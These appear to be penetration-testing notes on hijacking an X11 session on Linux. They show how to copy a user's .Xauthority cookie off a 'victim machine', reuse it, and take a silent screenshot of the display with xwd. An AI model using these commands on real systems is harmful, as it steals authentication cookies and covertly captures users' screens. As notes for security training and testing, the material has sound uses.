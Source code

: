 ### Files present in home directory:

### .xsession, .Xauthority

### Check for the LightDM user in /etc/passwd for further confirmation.

### The presence of these files in a user's home directory might indicate that the user has already authenticated and possibly contain sensitive information to view.

## Steps:

#### 1) Transfer the .Xauthority file to our machine (cat .Xauthority | base64) then (echo 'BASE64_STRING' > /tmp/Xauthority) or just transfer it via a python server.

#### 2) export XAUTHORITY=/tmp/Xauthority (Set the cookie by pointing the environment variable to our cookie file)

#### 3) (Victim machine) w (Check which display the user we are trying to impersonate is using)

#### 4) (Victim machine) xwd (Dumps an image of an x window, to get a screenshot in its current state.

### Example command:

#### xwd -root -screen -silent -display :0 > /tmp/screen.xwd (-root: select root window, -screen: send GetImage request to root window, -silent: Do it silently, -display: specify the server to connect to

#### 5) Download the file from the victim host to our machine

#### 6) convert /tmp/screen.xwd screen.png (Convert to image format to view the screenshot)

